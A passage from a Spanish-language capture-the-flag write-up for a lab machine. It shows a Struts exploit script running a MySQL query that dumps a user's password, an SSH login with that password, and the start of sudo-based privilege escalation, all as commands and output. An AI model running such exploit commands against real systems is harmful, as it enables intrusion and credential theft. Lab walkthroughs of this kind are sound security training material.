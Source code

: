 Una vez que sabemos las tablas y la base de datos ya lo que queda es hacer la consulta con `mysql` para ver todos los datos

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'mysql -uadmin -padmin -e "select * from accounts" users'
fullName	password	username
Richard F. Smith	9tc*rhKuG5TyXvUJOrE^5CK7k	richard

[%] Done.
```

Como podemos ver nos devuelve un `user richard` y una `password:9tc*rhKuG5TyXvUJOrE^5CK7k`, por lo que lo que yo haría en este punto es probar estas credenciales con `ssh` para intentar conectarnos y entablar una shell interactiva en nuestra maquina

----------------------

# SHELL COMO RICHARD

```bash
ssh richard@10.10.10.64
richard@10.10.10.64's password: 
Linux stratosphere 4.19.0-25-amd64 #1 SMP Debian 4.19.289-2 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Sep 23 16:32:01 2024 from 10.10.16.13
richard@stratosphere:~$ 
```

-----------------------
# ESCALADA DE PRIVILEGIOS A ROOT

- Reconocimiento básico

```bash
richard@stratosphere:~$ sudo -l
Matching Defaults entries for richard on stratosphere:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User richard may run the following commands on stratosphere:
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py
```

Como vemos podemos ejecutar con permisos de sudo el siguiente comando `/usr/bin/python* /home/richard/test.py`, este script de Python se encuentra en nuestro directorio pero no podemos editarlo debido a que tiene la flag inmute.
